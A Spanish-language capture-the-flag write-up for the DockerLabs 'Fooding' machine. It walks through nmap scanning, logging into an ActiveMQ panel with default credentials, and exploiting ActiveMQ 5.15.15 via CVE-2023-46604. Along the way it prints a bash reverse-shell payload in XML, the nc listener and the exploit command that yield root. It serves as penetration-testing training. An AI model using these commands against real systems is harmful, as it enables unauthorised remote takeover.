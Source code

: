 # Máquina Fooding

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información sobre los servicios.

```shell
nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado **Fuzzing** sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto **8161**

```
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:

* root:root
* guest:guest
* admin:admin

Logramos acceder con las credenciales **admin:admin**

En la web encontramos un directorio **/admin** en uno de los links. Observamos el panel de **ActiveMQ**, servicio el cual corre por el puerto **61616**, como podemos ver en el reporte de **nmap**.

![Pasted image 20240417135427](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/400ec442-9cd8-487c-b033-1b7b65c963df)

***

## Explotación

Tras buscar en internet, encontramos un exploit para la versión **5.15.15** -> [Exploit](https://github.com/NKeshawarz/CVE-2023-46604-RCE) En el **exploit** tenemos que editar el archivo **poc.xml** para ejecutar el comando que queremos, en este caso la **reverse shell**.

```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto **80** con **python**:

```shell
sudo python3 -m http.server 80
```

Abriremos el puerto **443** para recibir la **reverse shell**:

```shell
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el **poc.xml** de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de **ActiveMQ** que es el **61616**.

```shell
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro !

```shell
whoami
----------------
root
```

Y como el usuario que corre el servicio que hemos explotado es **root**, tenemos los privilegios máximos en el sistema.

***
